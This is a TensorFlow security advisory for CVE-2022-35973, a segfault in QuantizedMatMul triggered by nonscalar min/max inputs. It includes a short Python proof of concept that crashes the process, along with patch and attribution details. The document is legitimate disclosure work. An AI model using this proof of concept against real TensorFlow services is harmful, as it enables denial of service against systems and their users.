 ## TFSA-2022-107: Segfault in `QuantizedMatMul`

### CVE Number
CVE-2022-35973

### Impact
If `QuantizedMatMul` is given nonscalar input for:
 - `min_a`
 - `max_a`
 - `min_b`
 - `max_b`
It gives a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

Toutput = tf.qint32
transpose_a = False
transpose_b = False
Tactivation = tf.quint8
a = tf.constant(7, shape=[3,4], dtype=tf.quint8)
b = tf.constant(1, shape=[2,3], dtype=tf.quint8)
min_a = tf.constant([], shape=[0], dtype=tf.float32)
max_a = tf.constant(0, shape=[1], dtype=tf.float32)
min_b = tf.constant(0, shape=[1], dtype=tf.float32)
max_b = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedMatMul(a=a, b=b, min_a=min_a, max_a=max_a, min_b=min_b, max_b=max_b, Toutput=Toutput, transpose_a=transpose_a, transpose_b=transpose_b, Tactivation=Tactivation)
```

### Patches
We have patched the issue in GitHub commit [aca766ac7693bf29ed0df55ad6bfcc78f35e7f48](https://github.com/tensorflow/tensorflow/commit/aca766ac7693bf29ed0df55ad6bfcc78f35e7f48).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
